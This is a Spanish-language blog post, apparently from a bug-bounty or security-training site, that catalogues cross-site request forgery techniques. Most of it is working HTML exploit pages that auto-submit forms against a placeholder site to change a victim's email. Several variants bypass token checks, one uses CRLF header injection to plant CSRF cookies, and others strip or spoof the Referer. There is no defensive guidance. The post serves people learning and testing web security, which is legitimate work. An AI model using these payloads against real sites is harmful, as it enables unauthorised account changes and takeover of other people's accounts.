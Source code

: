 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Ataques CSRF (Cross-site request forgery) o falsificación de petición en sitios cruzados es un tipo de exploit malicioso que tiene como objetivo realizar operaciones no autorizadas que serán ejecutadas por un usuario del cual el sitio web confía.

# Table of Contents
1. [Vulnerabilidad CSRF sin defensas](#CSRFsinDefensas)
2. [Validación token depende método solicitud](#CSRFenGET)
3. [Validación token depende presencia token](#CSRFenPresencia)
4. [El token CSRF no está vinculado a la sesión del usuario](#CSRFnoVinculado)<br>
   4.1. [Mismo token entre usuarios](#MismoTokenUsuarios)<br>
   4.2. [Token no vinculado a la sesion](#SesionTokenNoVinculado)
5. [El token se duplica en la cookie](#TokenDuplicaCookie)
6. [CSRF sin Referrer](#CSRFsinReferrer)
7. [Validacion del Referer rota](#CSRFRefererRoto)

---

### Vulnerabilidad CSRF sin defensas <a name="CSRFsinDefensas"></a>
**CSRF basico correo**<br>
Hace una peticion a la pagina en la ruta donde se cambia el correo y con el javascript confirma la peticion, lo cual se cambiará el correo con solo visitar la pagina.

Codigo de https://web-atacante.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF donde la validación del token depende del método de solicitud <a name="CSRFenGET"></a>
Dependiendo del metodo de peticion, se puede hacer con GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF donde la validación del token depende de la presencia del token <a name="CSRFenPresencia"></a>
No verifica el token CSRF, se eliminia y se bypassea.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### El token CSRF no está vinculado a la sesión del usuario <a name="CSRFnoVinculado"></a>
**Usar el mismo token en ambos usuarios**<br>
Podemos usar el mismo Token CSRF en un usuario que en otro, gracias a que el token que no esta vinculado a la sesión del usuario <a name="MismoTokenUsuarios"></a><br>
Mi token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ sirve para otros usuarios tambien.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**El token CSRF no esta vinvulado a la sesion.** <a name="SesionTokenNoVinculado"></a><br>
Por lo que se podria usar el mismo csrf token y la misma csrf key en una cuenta que en otra para cambiar el correo  
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### El token CSRF simplemente se duplica en una cookie <a name="TokenDuplicaCookie"></a>
El token se valida en la cookie, podemos hacer que el usuario se cree su propio token csrf el cual indicamos nosotros.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Como se validaba el token en la cookie podemos mandar la peticion para el cambio de correo.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="tokenfalso">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=tokenfalso" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF sin Referrer <a name="CSRFsinReferrer"></a>
Indicamos que no exista el Referer en el exploit del CSRF usando el tag de meta.

```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF con validacion del Referer rota <a name="CSRFRefererRoto"></a>

La pagina valida el referrer cuando queremos cambiar de correo, **se fija si el referer incluye el dominio de la pagina origen.**
Modificando el referer con javascript podemos evadir esta validacion y poder explotar el CSRF.

**Modificar el Referer:**
 - Usando esta funcion de javascript `history.pushState()` que agrega una entrada a la pila del historial de sesiones del navegador.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Validacion del referer acepta cualquier encabezado que contenga el dominio esperado en algún lugar de la cadena
```html
Referer: https://atacante-web.com/?vulnerable-web.com
```

**Referrer-Policy**
- Muchos navegadores ahora eliminan la cadena de consulta del encabezado Referrer de forma predeterminada como medida de seguridad. Para anular este comportamiento y asegurarnos de que la URL completa se incluya en la solicitud.
- Tenemos que añadir en el encabezado "Referrer-Policy: unsafe-url"
```html
<meta name="referrer" content="unsafe-url" />
```

```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")
             
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```
